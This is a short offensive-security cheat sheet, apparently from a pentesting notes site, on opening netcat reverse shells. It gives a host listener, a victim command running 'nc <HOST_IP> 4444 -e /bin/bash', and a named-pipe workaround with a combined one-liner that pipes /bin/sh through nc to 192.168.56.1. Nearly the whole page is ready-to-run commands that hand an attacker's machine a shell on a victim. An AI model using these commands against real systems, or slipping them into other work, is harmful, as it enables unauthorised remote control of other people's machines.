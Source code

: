 # Reverse Shells

### Netcat

There are different variants of netcat, so if things doesn't work, you probably want to get some error output from the victim (`2> /tmp/err`)

```sh
# Host
nc -lvp 4444
# Host (macOS)
nc -v -l 4444

# Victim
nc <HOST_IP> 4444 -e /bin/bash
```

Sometimes the victim machine might not have `-e` argument enabled, then we can hack our way using the following command

_Credit:_ [_https://spencerdodd.github.io/2017/02/21/reverse\_shell\_without\_nce/_](https://spencerdodd.github.io/2017/02/21/reverse\_shell\_without\_nce/) __&#x20;

```sh
# Create a new file system node, with type pipe
mknod /tmp/backpipe p
# Then we create this nice cycle of pipe
# First part will redirect stdout of backpipe to /bin/sh, which is used to execute commands
# Second part will redirect output of nc to the pipe, which connects to the first part for command execution
# Result of the command then gets piped to nc using `|` operator, finishing the cycle
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe

# Combined, you can have a nice script like
rm /tmp/backpipe && mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
```
